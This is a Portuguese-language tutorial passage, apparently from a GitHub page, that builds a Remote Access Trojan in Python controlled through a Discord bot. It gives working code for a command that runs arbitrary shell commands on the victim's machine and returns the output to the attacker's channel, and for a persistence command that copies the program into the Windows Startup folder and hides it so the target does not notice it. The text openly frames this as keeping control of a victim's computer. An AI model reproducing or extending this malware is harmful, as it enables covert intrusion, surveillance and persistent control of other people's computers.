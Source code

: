 Para que o programa seja considerado um verdadeiro RAT (Remote Access Trojan), ele precisa ter a capacidade de executar comandos no sistema da vítima. Vamos, então, adicionar essa funcionalidade essencial ao nosso RAT.
#
```py

@bot.command(name='shell', help=f'Executa um comando no shell. Uso: {prefix}shell <comando>')
async def shell(ctx, *, command: str):
    try:
        result = subprocess.run(command, shell=True, capture_output=True, text=True)
        output = result.stdout if result.stdout else result.stderr
        if output:
            if len(output) > 2000:
                with open("output.txt", "w") as f:
                    f.write(output)
                await ctx.send(file=discord.File("output.txt"))
            else:
                await ctx.send(f"```\n{output}\n```")
        else:
            await ctx.send("[*] Comando executado, mas sem saída.")
    except Exception as e:
        await ctx.send(f"[!] Ocorreu um erro ao executar o comando: {str(e)}")

```
#
Esse comando permite executar um comando no shell e envia a saída diretamente para o Discord. Caso a saída ultrapasse 2000 caracteres, o bot cria um arquivo chamado `output.txt` e o envia no canal para garantir que todo o conteúdo seja entregue.

Com isso, você já possui um RAT básico em Python, que pode ser usado para controle remoto do computador alvo. Agora, vamos adicionar um último comando essencial para garantir que você nunca perca o controle sobre o dispositivo.
#
```py

@bot.command(name='startup', help=f'Se coloca para iniciar com o sistema e coloca o atributo de oculto. Uso: {prefix}startup')
async def startup(ctx):
    try:
        bot_path = sys.argv[0]
        bot_name = os.path.basename(bot_path)
        startup_path_en = os.path.join(os.getenv('APPDATA'), 'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup', bot_name)
        startup_path_pt = os.path.join(os.getenv('APPDATA'), 'Microsoft', 'Windows', 'Menu Iniciar', 'Programas', 'Inicializar', bot_name)
        if os.path.exists(startup_path_en):
            startup_path = startup_path_en
        elif os.path.exists(startup_path_pt):
            startup_path = startup_path_pt
        else:
            await ctx.send("[!] Pasta de inicialização não encontrada.")
            return
        shutil.copy(bot_path, startup_path)
        subprocess.run(f"attrib +s +h \"{startup_path}\"", shell=True)
        await ctx.send("[*] Bot configurado para iniciar com o sistema e oculto.")
    except Exception as e:
        await ctx.send(f"[!] Ocorreu um erro ao configurar o bot para iniciar com o sistema: {str(e)}")

```
#
Este comando configura o bot para iniciar automaticamente com o sistema e atribui o modo oculto, ou seja, o bot será executado assim que o sistema ligar, sem que o alvo perceba sua presença.
